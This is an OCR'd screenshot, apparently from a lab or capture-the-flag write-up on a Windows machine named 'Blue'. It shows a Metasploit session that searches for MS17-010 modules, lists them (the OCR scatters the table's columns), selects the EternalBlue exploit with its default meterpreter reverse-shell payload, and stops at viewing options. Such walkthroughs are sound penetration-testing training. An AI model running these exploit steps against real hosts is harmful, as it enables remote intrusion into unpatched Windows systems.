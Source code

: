 ![](Maszyny/Windows/Blue/Pasted%20image%2020210814140558.png)

msf6 > search ms17-010
Matching Modules
#
Name
Disclosure Date
Rank
Check
Description
0
1
2
3
4
exploit/windows/smb/ms17_010_eternalblue 2017-03-14
exploit/windows/smb/ms17_010_psexec 2017-03-14
auxiliary/admin/smb/ms17_010_command 2017-03-14
auxiliary/scanner/smb/smb_ms17_010
exploit/windows/smb/smb_doublepulsar_rce 2017-04-14
average
normal
normal
normal
great
Yes
Yes
No
No
Yes
MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
MS17-010 Eternal Romance/EternalSynergy/Eternal Champion SMB Remote Windows Code Execution
MS17-010 Eternal Romance/EternalSynergy/Eternal Champion SMB Remote Windows Command Execution
MS17-010 SMB RCE Detection
SMB DOUBLEPULSAR Remote Code Execution
Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_top
msf6 exploit(windows/smb/ms17_010_eternalblue) > options
